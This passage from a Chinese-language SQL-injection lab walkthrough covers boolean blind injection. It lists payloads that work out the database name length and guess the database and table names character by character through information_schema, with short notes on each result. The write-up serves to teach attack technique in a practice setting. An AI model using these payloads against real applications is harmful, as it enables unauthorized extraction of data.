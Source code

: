 ```php+HTML
        //echo "You have an error in your SQL syntax";
        echo "</br></font>";
        echo '<font color= "#0000ff" font size= 3>';

        }
}
        else { echo "Please input the ID as parameter with numeric value";}
```

**布尔盲注**

判断数据库长度

```
1' and if(length(database())=8,1,0) -- a
1' and (length(database())) = 8 --+
1' and (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))) = 5 --+
```

数据库长度为8

猜数据库名

```
1' and ascii(substr((select database()),1,1))=115 --+ 第一个是s
1' and if(ascii(substr((select database()),1,1))=115,1,0)--+

1' and ascii(substr((select database()),2,1))=101 --+ 第二个是e
1' and if(ascii(substr((select database()),2,1))=101,1,0) --+

1' and if(ascii(substr((select database()),3,1))=99,1,0) --+ 第三个是c
1' and if(ascii(substr((select database()),3,1))=99,1,0) --+
......
```

猜表的长度

```
第一行表的长度为6
1' and if(length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=6,1,0)--+

第一行表的长度为8
1' and if(length((select table_name from information_schema.tables where table_schema=database() limit 1,1))=8,1,0)--+
......
```

猜表名

```
第一个表的第一个字母是e
1' and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101,1,0) --+

第一个表的第二个字母是m
1' and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))=109,1,0) --+
......
```
